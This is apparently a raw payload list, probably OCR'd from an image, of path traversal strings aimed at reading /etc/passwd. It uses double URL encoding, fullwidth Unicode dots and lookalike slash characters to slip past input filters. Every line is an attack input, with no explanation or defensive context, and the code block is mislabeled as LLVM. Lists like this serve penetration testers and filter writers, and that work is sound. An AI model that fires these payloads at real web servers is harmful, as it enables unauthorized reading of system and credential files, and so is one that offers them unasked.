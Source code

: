 ```llvm
..%%35%63..%%35%63../etc/passwd
..%%35%63..%%35%63..%%35%63etc/passwd
..%%35%63..%%35%63..%%35%63etc%%35%63passwd
..%%35%63..%%35%63..%%35%63../etc/passwd
..%%35%63..%%35%63..%%35%63..%%35%63etc/passwd
..%%35%63..%%35%63..%%35%63..%%35%63etc%%35%63passwd
..%%35%63..%%35%63..%%35%63..%%35%63../etc/passwd
..%%35%63..%%35%63..%%35%63..%%35%63..%%35%63etc/passwd
..%%35%63..%%35%63..%%35%63..%%35%63..%%35%63etc%%35%63passwd
..%%32%66etc/passwd
..%%32%66etc%%32%66passwd
..%%32%66../etc/passwd
..%%32%66..%%32%66etc/passwd
..%%32%66..%%32%66etc%%32%66passwd
..%%32%66..%%32%66../etc/passwd
..%%32%66..%%32%66..%%32%66etc/passwd
..%%32%66..%%32%66..%%32%66etc%%32%66passwd
..%%32%66..%%32%66..%%32%66../etc/passwd
..%%32%66..%%32%66..%%32%66..%%32%66etc/passwd
..%%32%66..%%32%66..%%32%66..%%32%66etc%%32%66passwd
..%%32%66..%%32%66..%%32%66..%%32%66../etc/passwd
..%%32%66..%%32%66..%%32%66..%%32%66..%%32%66etc/passwd
..%%32%66..%%32%66..%%32%66..%%32%66..%%32%66etc%%32%66passwd
%uff0e%uff0e/etc/passwd
%uff0e%uff0e/%uff0e%uff0e/etc/passwd
%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/etc/passwd
%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/etc/passwd
%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/%uff0e%uff0e/etc/passwd
%uff0e%uff0e%u2216etc/passwd
%uff0e%uff0e%u2216etc%u2216passwd
%uff0e%uff0e%u2216%uff0e%uff0e/etc/passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc/passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc%u2216passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e/etc/passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc/passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc%u2216passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e/etc/passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc/passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc%u2216passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e/etc/passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc/passwd
%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc%u2216passwd
%uff0e%uff0e%u2215etc/passwd
%uff0e%uff0e%u2215etc%u2215passwd
%uff0e%uff0e%u2215%uff0e%uff0e/etc/passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc/passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc%u2215passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e/etc/passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc/passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc%u2215passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e/etc/passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc/passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc%u2215passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e/etc/passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc/passwd
%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc%u2215passwd
%u002e%u002e/etc/passwd
%u002e%u002e/%u002e%u002e/etc/passwd
%u002e%u002e/%u002e%u002e/%u002e%u002e/etc/passwd
```